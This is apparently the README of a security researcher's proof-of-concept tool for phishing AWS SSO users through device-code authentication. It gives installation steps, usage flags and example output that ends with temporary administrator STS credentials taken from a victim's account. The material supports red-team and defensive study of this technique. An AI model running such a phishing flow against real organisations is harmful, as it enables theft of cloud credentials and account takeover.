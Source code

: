 # AWS SSO Device code phishing

This repository contains Python code to generate an AWS SSO device code URL. Once a user used it to authenticate, it display the list of AWS accounts and roles they have access to, and allow retrieving STS credentials inside them.

![](./screenshot.png)

Companion blog post: https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/

*Note: This repository is pretty much useless since you can use the AWS CLI to achieve the same purpose. But it provides an interactive PoC to try it. :-)*

## Installation

```
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

## Usage

```
$ python main.py --help
usage: main.py [-h] -u START_URL -r REGION [-i SSO_TOKEN_FILE] [-o OUTPUT_FILE]

optional arguments:
  -h, --help            show this help message and exit
  -u START_URL, --sso-start-url START_URL
                        AWS SSO start URL. Example: https://mycompany.awssapps.com/start (default: None)
  -r REGION, --sso-region REGION
                        AWS region in which AWS SSO is configured (e.g. us-east-1) (default: None)
  -i SSO_TOKEN_FILE, --sso-token-file SSO_TOKEN_FILE
                        File to read the AWS SSO token from. If provided, no device code URL is generated (default: None)
  -o OUTPUT_FILE        File to write the retrieved AWS SSO token (default: None)
```

Example:

```
$ python3 main.py -u https://company.awsapps.com/start/ -r eu-west-1  -o /tmp/token
Creating temporary AWS SSO OIDC application
Initiating device code flow
Device code URL: https://device.sso.eu-west-1.amazonaws.com/?user_code=HKRD-BQQP
Waiting indefinitely for user to validate the AWS SSO prompt..
Successfully retrieved AWS SSO token!
> Dev account (11xxxxxxxxx)
  Prod account (545xxxxxxxxx)
  
  
 > AdministratorAccess
  ViewOnlyAccess
  (back to accounts list)

Here are your temporary STS credentials for the 'AdministratorAccess' role in the AWS account 'Dev account' (11xxxxx)

export AWS_ACCESS_KEY_ID=ASIAR..
export AWS_SECRET_ACCESS_KEY=Lj0..
export AWS_SESSION_TOKEN=IQo..
```

Example with an existing AWS SSO token:

```
$ python3 main.py -u https://company.awsapps.com/start/ -r eu-west-1 -i /tmp/token
```

## Troubleshooting

### "invalid_grant - Invalid grant provided"

Ensure you set the correct AWS SSO region. Given the AWS SSO start URL, you can see it using:

```
$ curl https://company.awsapps.com/start/ -s | grep 'region' 
    <meta name="region" content="eu-west-1"/>
```
